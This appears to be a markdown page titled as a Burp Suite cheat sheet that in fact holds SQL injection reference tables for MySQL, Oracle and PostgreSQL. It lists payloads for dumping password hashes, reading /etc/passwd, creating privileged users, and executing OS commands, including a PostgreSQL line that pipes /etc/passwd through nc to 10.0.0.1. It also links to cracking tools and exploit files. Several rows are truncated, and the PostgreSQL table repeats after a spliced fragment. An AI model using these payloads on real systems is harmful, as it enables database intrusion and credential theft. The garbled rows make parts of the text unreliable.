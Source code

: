 ```yaml
---
title: Burp Suite Cheat sheet
date: 2023-12-18 15:01:35 +0300
authors: [admin]
image: 'https://wallpaperaccess.com/full/5927932.jpg'
---
```

# **MySQL SQL Injection**

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT @@version | Retrieves the version of the MySQL server. |
| Comments | SELECT 1; #comment<br>SELECT /comment/1; | Demonstrates how to use comments in SQL queries. Single-line and multi-line comments are shown. |
| Current User | SELECT user();<br>SELECT system_user(); | Retrieves the current MySQL user and the system user that the MySQL server is running as. |
| List Users | SELECT user FROM mysql.user; — priv | Lists all users in the MySQL database. Requires administrative privileges. |
| List Password Hashes | SELECT host, user, password FROM mysql.user; — priv | Retrieves host, username, and password hashes from the MySQL user table. Requires administrative privileges. |
| Password Cracker | http://www.openwall.com/john/ | Suggests a tool for cracking MySQL password hashes. |
| List Privileges | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — priv<br>SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv | Lists various user privileges. The first query lists privileges from the information_schema database, while the second query lists detailed privileges for each user from the mysql.user table. Both require administrative privileges. |
| List DBA Accounts | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';<br>SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; — priv | Lists database administrator accounts. The first query checks user privileges in the information_schema, and the second query checks the Super_priv column in mysql.user. Both require administrative privileges. |
| Current Database | SELECT database() | Retrieves the name of the current database. |
| List Databases | SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0<br>SELECT distinct(db) FROM mysql.db — priv | Lists all databases. The first query lists schemas for MySQL version 5.0 and above, while the second query retrieves databases from the mysql.db table and requires administrative privileges. |
| List Columns | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' | Lists columns in all tables, excluding system tables, in the information_schema database. |
| List Tables | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' | Lists all tables, excluding system tables, in the information_schema database. |
| Find Tables From Column Name | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; | Finds tables that contain a column named ‘username’ in the information_schema database. |
| Select Nth Row | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0<br>SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0 | Selects the Nth row from a table. The OFFSET keyword is used to specify which row to start from. |
| Select Nth Char | SELECT substr('abcd', 3, 1); # returns c | Selects the Nth character from a string. In this example, it returns the 3rd character from the string 'abcd'. |
| Bitwise AND | SELECT 6 & 2; # returns 2<br>SELECT 6 & 1; # returns 0 | Demonstrates the use of bitwise AND operation in SQL. In these examples, it performs a bitwise AND on the numbers 6 and 2, and 6 and 1, respectively. |
| ASCII Value -> Char | SELECT char(65); # returns A | Converts an ASCII value to its corresponding character. In this example, ASCII 65 is converted to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); # returns 65 | Converts a character to its corresponding ASCII value. In this example, 'A' is converted to ASCII 65. |
| Casting | SELECT cast('1' AS unsigned integer);<br>SELECT cast('123' AS char); | Demonstrates how to cast data types in SQL. The first query casts the string '1' to an unsigned integer, and the second query casts the string '123' to a character data type. |
| String Concatenation | SELECT CONCAT('A','B'); #returns AB<br>SELECT CONCAT('A','B','C'); # returns ABC | Shows how to concatenate strings in SQL. The first query concatenates 'A' and 'B', and the second query concatenates 'A', 'B', and 'C'. |
| If Statement | SELECT if(1=1,'foo','bar'); — returns 'foo' | Demonstrates the use of an IF statement in SQL. This query checks if 1 equals 1 and returns 'foo'; otherwise, it would return 'bar'. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A | Demonstrates the use of a CASE statement in SQL. This query checks if 1 equals 1 and returns 'A'; otherwise, it would return 'B'. |
| Avoiding Quotes | SELECT 0x414243; # returns ABC | Shows how to use hexadecimal values to avoid quotes in SQL queries. This query returns the string 'ABC' from its hexadecimal representation. |
| Time Delay | SELECT BENCHMARK(1000000,MD5('A'));<br>SELECT SLEEP(5); # >= 5.0.12 | Introduces methods to create a time delay in SQL queries. The BENCHMARK function repeats an operation a specified number of times, and SLEEP pauses execution for a specified number of seconds. |
| Make DNS Requests | Impossible? | Notes that making DNS requests through MySQL is generally not possible. |
| Command Execution | http://www.0xdeadbeef.info/exploits/raptor_udf.c | Explains how to execute OS commands via MySQL under certain conditions, by uploading a shared object file into the server's library directory. Requires administrative privileges and specific server configurations. |
| Local File Access | ...' UNION ALL SELECT LOAD_FILE('/etc/passwd') — priv, can only read world-readable files.<br>SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system | Demonstrates how to access local files through SQL queries. The first query reads a file, and the second writes to a file. Both require administrative privileges. |
| Hostname, IP Address | SELECT @@hostname; | Retrieves the hostname of the MySQL server. |
| Create Users | CREATE USER test1 IDENTIFIED BY 'pass1'; — priv | Creates a new user in MySQL with the specified password. Requires administrative privileges. |
| Delete Users | DROP USER test1; — priv | Deletes a user from MySQL. Requires administrative privileges. |
| Make User DBA | GRANT ALL PRIVILEGES ON . TO test1@'%'; — priv | Grants a user all privileges on all databases and tables, effectively making them a DBA. Requires administrative privileges. |
| Location of DB files | SELECT @@datadir; | Retrieves the directory where database files are stored in the MySQL server. |
| Default/System Databases | information_schema (>= mysql 5.0)<br>mysql | Lists default and system databases in MySQL. 'information_schema' is available from MySQL version 5.0 and above, and 'mysql' is the system database that contains user and privilege information. |

# Oracle SQL Injection

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';<br>SELECT banner FROM v$version WHERE banner LIKE 'TNS%';<br>SELECT version FROM v$instance; | Retrieves the version of the Oracle database. The first query gets the Oracle DB version, the second gets the Oracle TNS Listener version, and the third gets the instance version. |
| Comments | SELECT 1 FROM dual — comment | Demonstrates how to use comments in SQL queries in Oracle. 'dual' is a special table used in Oracle. |
| Current User | SELECT user FROM dual | Retrieves the current user of the Oracle database. |
| List Users | SELECT username FROM all_users ORDER BY username;<br>SELECT name FROM sys.user$; — priv | Lists all users in the Oracle database. The first query lists usernames from the all_users view, and the second query, which requires administrative privileges, lists users from the sys.user$ table. |
| List Password Hashes | SELECT name, password, astatus FROM sys.user$ — priv, <= 10g. astatus tells you if acct is locked<br>SELECT name,spare4 FROM sys.user$ — priv, 11g | Retrieves user names and password hashes from the Oracle database. The first query is for Oracle versions up to 10g and includes account status, while the second query is for version 11g. Both require administrative privileges. |
| Password Cracker | http://www.red-database-security.com/software/checkpwd.html | Suggests a tool for cracking Oracle password hashes. |
| List Privileges | SELECT * FROM session_privs; — current privs<br>SELECT * FROM dba_sys_privs WHERE grantee = 'DBSNMP'; — priv, list a user’s privs<br>SELECT grantee FROM dba_sys_privs WHERE privilege = 'SELECT ANY DICTIONARY'; — priv, find users with a particular priv<br>SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS; | Lists privileges of users in the Oracle database. The first query lists current session privileges, the second lists privileges of a specific user, the third finds users with a particular privilege, and the fourth lists roles granted to users. The last three queries require administrative privileges. |
| List DBA Accounts | SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES'; — priv, list DBAs, DBA roles | Lists database administrator accounts in Oracle. This query finds users with administrative privileges and requires administrative privileges itself. |
| Current Database | SELECT global_name FROM global_name;<br>SELECT name FROM v$database;<br>SELECT instance_name FROM v$instance;<br>SELECT SYS.DATABASE_NAME FROM DUAL; | Retrieves the name of the current Oracle database. Each query provides a different way to obtain the current database or instance name. |
| List Databases | SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)<br>— Also query TNS listener for other databases. See http://www.jammed.com/~jwa/hacks/security/tnscmd/tnscmd-doc.html (services | status). |
| List Columns | SELECT column_name FROM all_tab_columns WHERE table_name = 'blah';<br>SELECT column_name FROM all_tab_columns WHERE table_name = 'blah' and owner = 'foo'; | Lists columns in Oracle tables. The first query lists columns of a specified table, and the second query specifies both table and owner. |
| List Tables | SELECT table_name FROM all_tables;<br>SELECT owner, table_name FROM all_tables; | Lists all tables in Oracle. The first query lists table names, and the second includes the owner of each table. |
| Find Tables From Column Name | SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%'; — NB: table names are upper case | Finds Oracle tables that contain a specific column. The query lists tables with a column name like '%PASS%'. Note that Oracle table names are usually in uppercase. |
| Select Nth Row | SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1) | Retrieves the Nth row from a result set in Oracle. This example gets the 9th row from the all_users table. Oracle rows are numbered starting from 1. |
| Select Nth Char | SELECT substr('abcd', 3, 1) FROM dual; — gets 3rd character, ‘c’ | Retrieves the Nth character from a string in Oracle. This example gets the 3rd character from 'abcd'. |
| Bitwise AND | SELECT bitand(6,2) FROM dual; — returns 2<br>SELECT bitand(6,1) FROM dual; — returns 0 | Demonstrates the use of bitwise AND in Oracle. The first query returns 2, and the second returns 0. |
| ASCII Value -> Char | SELECT chr(65) FROM dual; — returns A | Converts an ASCII value to its corresponding character in Oracle. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A') FROM dual; — returns 65 | Converts a character to its corresponding ASCII value in Oracle. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 AS char) FROM dual;<br>SELECT CAST('1' AS int) FROM dual; | Demonstrates how to cast data types in Oracle SQL. The first query casts the number 1 to a character, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements | Demonstrates the use of an IF statement in Oracle, using PL/SQL. This example uses dbms_lock.sleep for a conditional time delay. Note that IF statements are typically used in PL/SQL blocks rather than directly in SELECT statements. |
| Case Statement | SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1<br>SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2 | Demonstrates the use of a CASE statement in Oracle SQL. The first query returns 1 if the condition is true (1=1), and the second returns 2 if the condition is false (1=2). |
| Avoiding Quotes | SELECT chr(65) |  |
| Time Delay | BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELECT<br>SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — if reverse looks are slow<br>SELECT UTL_INADDR.get_host_address('blah.attacker.com') FROM dual; — if forward lookups are slow<br>SELECT UTL_HTTP.REQUEST('http://google.com/') FROM dual; — if outbound TCP is filtered / slow<br>— Also see http://technet.microsoft.com/en-us/library/cc512676.aspx to create a time delay | Introduces methods to create a time delay in Oracle SQL. The DBMS_LOCK.SLEEP function pauses execution, but it's generally not embeddable in a SELECT statement. Other methods involve slow network operations. |
| Make DNS Requests | SELECT UTL_INADDR.get_host_address('google.com') FROM dual;<br>SELECT UTL_HTTP.REQUEST('http://google.com/') FROM dual; | Demonstrates how to make DNS requests in Oracle SQL. The first query resolves an IP address, and the second makes an HTTP request. |
| Command Execution | http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql | Provides a link to an exploit that can be used to execute commands in Oracle under certain conditions. |
| Local File Access | http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql — can sometimes be used. Check that the following is non-null: SELECT value FROM v$parameter2 WHERE name = 'utl_file_dir';<br>http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql — can be used to read and write files if installed (not available in Oracle Express). | Provides links to exploits that can be used for local file access in Oracle. The first exploit checks the 'utl_file_dir' parameter, and the second exploit can be used to read and write files. |
| Hostname, IP Address | SELECT UTL_INADDR.get_host_name FROM dual;<br>SELECT host_name FROM v$instance;<br>SELECT UTL_INADDR.get_host_address FROM dual; — gets IP address<br>SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — gets hostnames | Retrieves the hostname and IP address of the Oracle server. The queries use different functions and views to obtain this information. |
| Location of DB files | SELECT name FROM V$DATAFILE; | Retrieves the locations of database files in Oracle. This query lists the data files as seen in the V$DATAFILE view. |
| Default/System Databases | SYSTEM<br>SYSAUX | Lists default and system databases in Oracle. 'SYSTEM' and 'SYSAUX' are key system tablespaces in Oracle. |
|  |  |  |

# **Postgres SQL Injection**

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT version() | Retrieves the version of the PostgreSQL database. |
| Comments | SELECT 1; --comment<br>SELECT /comment/1; | Demonstrates how to use comments in SQL queries in PostgreSQL. Both -- and /* */ are used for commenting. |
| Current User | SELECT user;<br>SELECT current_user;<br>SELECT session_user;<br>SELECT usename FROM pg_user;<br>SELECT getpgusername(); | Retrieves the current user of the PostgreSQL database. Multiple ways are shown to get the username, including from the pg_user system table. |
| List Users | SELECT usename FROM pg_user | Lists all users in the PostgreSQL database. pg_user is a system catalog view that shows user information. |
| List Password Hashes | SELECT usename, passwd FROM pg_shadow -- priv | Retrieves user names and password hashes from the PostgreSQL database. This query requires administrative privileges and is run on the pg_shadow table, which contains information about users. |
| Password Cracker | http://pentestmonkey.net/blog/cracking-postgres-hashes/ | Suggests a tool for cracking PostgreSQL's MD5-based password hashes. |
| List Privileges | SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user | Lists privileges of users in the PostgreSQL database. The query shows which users have privileges like creating databases, superuser access, and catalog update permissions. |
| List DBA Accounts | SELECT usename FROM pg_user WHERE usesuper IS TRUE | Lists database administrator accounts in PostgreSQL. This query finds users with superuser privileges. |
| Current Database | SELECT current_database() | Retrieves the name of the current PostgreSQL database. current_database() is a function that returns the database name. |
| List Databases | SELECT datname FROM pg_database | Lists all databases in PostgreSQL. pg_database is a system catalog that contains information about databases. |
| List Columns | SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') | Lists columns in PostgreSQL tables. This query joins several system catalogs to list columns in tables in the 'public' schema. |
| List Tables | SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r','') AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid) | Lists all tables in PostgreSQL. This query filters out system tables and lists user-defined tables. |
| Find Tables From Column Name | SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') AND attname LIKE '%password%'; | Finds PostgreSQL tables that contain a specific column. This query is useful for identifying tables with columns containing specific names, such as those related to passwords. |
| Select Nth Row | SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; -- rows numbered from 0<br>SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1; | Retrieves the Nth row from a result set in PostgreSQL. This example demonstrates getting the first and second rows from the pg_user table. PostgreSQL rows are numbered starting from 0. |
| Select Nth Char | SELECT substr('abcd', 3, 1); -- returns c | Retrieves the Nth character from a string in PostgreSQL. This example gets the 3rd character from 'abcd'. |
| Bitwise AND | SELECT 6 & 2; -- returns 2<br>SELECT 6 & 1; -- returns 0 | Demonstrates the use of bitwise AND in PostgreSQL. The first query returns 2, and the second returns 0. |
| ASCII Value -> Char | SELECT chr(65); | Converts an ASCII value to its corresponding character in PostgreSQL. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); | Converts a character to its corresponding ASCII value in PostgreSQL. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 as varchar);<br>SELECT CAST('1' as int); | Demonstrates how to cast data types in PostgreSQL. The first query casts the number 1 to a varchar, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | IF statements only seem valid inside functions, so aren’t much use for SQL injection. See CASE statement instead. | Explains that IF statements are typically used inside PL/pgSQL functions in PostgreSQL and are not directly applicable for SQL injection. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; -- returns A | Demonstrates the use of a CASE statement in PostgreSQL. This query returns 'A' if the condition (1=1) is true. |
| Avoiding Quotes | SELECT CHR(65) |  |
| Time Delay | SELECT pg_sleep(10); -- postgres 8.2+ only<br>CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(10); -- priv, create your own sleep function. Taken from http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf. | Introduces methods to create a time delay in PostgreSQL SQL. The pg_sleep function pauses execution, and the second query demonstrates creating a custom sleep function. Note that the creation of a custom function requires administrative privileges. |
| Make DNS Requests | Generally not possible in postgres. However if http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”. | Notes that making DNS requests through PostgreSQL is generally not possible. However, the dblink function or OS-level commands (for users with DBA rights) can be used for this purpose. |
| Command Execution | CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; -- priv<br>SELECT system('cat /etc/passwd | nc 10.0.0.1 8080'); -- priv, commands run as postgres/pgsql OS-level user | Demonstrates how to execute system commands in PostgreSQL. This requires creating a user-defined function in C and is generally possible only with administrative privileges. The commands are executed with the privileges of the PostgreSQL server process. |
| Local File Access | CREATE TABLE mydata(t text);<br>COPY mydata FROM '/etc/passwd'; -- priv, can read files which are readable by postgres OS-level user<br>... UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; -- get data back one and the second returns 0. |  |
| ASCII Value -> Char | SELECT chr(65); | Converts an ASCII value to its corresponding character in PostgreSQL. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); | Converts a character to its corresponding ASCII value in PostgreSQL. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 as varchar);<br>SELECT CAST('1' as int); | Demonstrates how to cast data types in PostgreSQL SQL. The first query casts the number 1 to a varchar, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | IF statements only seem valid inside functions, so aren’t much use for SQL injection. See CASE statement instead. | Notes that IF statements in PostgreSQL are typically used inside PL/pgSQL functions and are not directly applicable for SQL injection. The CASE statement is suggested as an alternative. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; -- returns A | Demonstrates the use of a CASE statement in PostgreSQL SQL. This query returns 'A' if the condition is true (1=1). |
| Avoiding Quotes | SELECT CHR(65) |  |
| Time Delay | SELECT pg_sleep(10); -- postgres 8.2+ only<br>CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(10); -- priv, create your own sleep function. Taken from http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf . | Introduces methods to create a time delay in PostgreSQL SQL. The pg_sleep function pauses execution for a specified number of seconds. The second method involves creating a custom sleep function using C language. This requires administrative privileges. |
| Make DNS Requests | Generally not possible in PostgreSQL. However, if http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights):<br>SELECT * FROM dblink('host=put.your.hostname.here user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT);<br>Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”. | Notes that making DNS requests through PostgreSQL is generally not possible. However, with certain extensions or DBA rights, there are workarounds like using dblink or OS-level commands. |
| Command Execution | CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; -- priv<br>SELECT system('cat /etc/passwd | nc 10.0.0.1 8080'); -- priv, commands run as postgres/pgsql OS-level user |